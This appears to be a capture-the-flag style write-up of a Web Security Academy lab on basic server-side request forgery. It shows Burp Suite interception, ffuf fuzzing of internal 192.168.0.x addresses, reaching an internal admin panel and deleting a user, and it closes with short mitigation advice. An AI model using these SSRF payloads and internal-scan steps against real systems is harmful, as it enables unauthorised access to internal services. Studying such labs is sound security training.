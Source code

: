 
<p align="center">
  <img src="./screenshots/ssrf_logo.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 22.04.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SSRF (`Non-Blind Internal SSRF`)

---

> The `SSRF` vulnerability is contained in the `check stock` function, which sends a request to the server and then receives a response:

![stock_check](./screenshots/stock_check.png)

![stock_check_answer](./screenshots/stock_check_answer.png)


## 🔍 Request interception

> I intercept the request of this function to the server in `BurpSuite`:

![intercepting_request](./screenshots/intercepting_request.png)

> I use `Hackvertor` extension for easy work with request body in `url encoding`:

```http

stockApi=<@urlencode>http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> From the request body it is clear that the request goes to the server at `192.168.0.1:8080`.

> I try to change the address and send to `192.168.0.2:8080`:

```http

stockApi=<@urlencode>http://192.168.0.2:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> Result:

![server_error](./screenshots/server_error.png)

> Ok. I get an error from the server. It takes too long to manually iterate over each address. I'll automate this process using the `ffuf` tool.

> I'll create a file with a request to iterate over a numeric parameter in an address:

> Example of the `ssrf_fuzz` file:
```bash

POST /product/stock HTTP/2
Host: 0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Cookie: session=rz5CE7YTftsF8xCFmwV78Hr4xuxqSmG5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.FUZZ%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

```

> Generate a file with a sequence of numbers from 1 to 255 using the `seq` tool:

```bash

seq 1 255 | sudo tee fuzz_nums.txt

```

```bash

cat fuzz_nums.txt
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16

...
...

```

> I run the enumeration via `ffuf`:

```bash

sudo ffuf -request ssrf_fuzz -w fuzz_nums.txt -mc all -ac

```
> Result:

```bash
________________________________________________

1                       [Status: 200, Size: 3, Words: 1, Lines: 1, Duration: 69ms]
234                     [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 68ms]
:: Progress: [255/255] :: Job [1/1] :: 99 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

```

> request to `192.168.0.234` returned status `404` - `not found`. This means that there is something at this address, but at the current endopoint `/product/stock/check?productId=1`
> the server could not return data. I need to access the admin panel. To do this, I substitute the endpoint `/admin` using a request to `192.168.0.234`:

```http

stockApi=<@urlencode>http://192.168.0.234:8080/admin</@urlencode>

```
> Result:

![admin_panel](./screenshots/admin_panel.png)

> Sending a request to delete user `Carlos`:

```http

stockApi=<@urlencode>http://192.168.0.234:8080/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)

---
## 🧠 Conclusion

> This type of web vulnerability occurs when the server does not filter input data when requested by the user. The server allows on its behalf
> to make a request to another resource or internal service and at the same time return the result of the request with all the data that a regular user should not receive.

> You can protect yourself by allowing specific requests (at a specific URL):

```python

if not url.startswith("https://api.example.com/"):
    reject()

```
> You should also block requests from outside to the local IP addresses of the system (`127.0.0.1`, `0.0.0.0`, `192.168.0.0/16` etc).
